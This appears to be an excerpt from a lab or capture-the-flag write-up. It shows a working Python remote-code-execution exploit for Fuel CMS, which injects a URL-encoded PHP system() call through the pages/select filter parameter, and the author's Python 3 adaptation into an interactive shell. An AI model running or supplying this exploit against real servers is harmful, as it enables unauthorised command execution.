 ```python
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

This exploit allowed for remote code execution (RCE), which is a vulnerability that allows an attacker to execute
commands on the server.

Looking at this code, it seems to be an interactive shell that sends requests to the server by injecting payloads into
the URL.

I then modified the code to suit my needs:

```python
import requests
import urllib
from urllib.parse import quote

url = "http://<ip>"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
	#proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print(r.text[0:dup])
```
